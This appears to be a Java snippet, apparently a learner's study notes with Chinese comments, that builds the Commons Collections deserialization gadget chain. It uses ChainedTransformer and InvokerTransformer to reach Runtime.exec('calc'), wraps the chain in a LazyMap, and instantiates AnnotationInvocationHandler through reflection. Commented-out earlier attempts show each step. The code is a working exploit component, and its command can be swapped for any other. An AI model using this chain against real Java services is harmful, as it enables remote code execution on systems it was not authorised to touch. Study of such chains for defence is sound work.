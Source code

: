 ```bash

//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r 不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

//        HashMap<Object,Object> map = new HashMap<>();
//        map.put("value","aaa");
//        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

//        for(Map.Entry entry:transformedmap.entrySet()){
//            entry.setValue(r);
//        }
//        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
//        annotationInvocationhdlConstructor.setAccessible(true);
//        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


//设置 chainedTransformer 在 Lazymap 中的值
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
```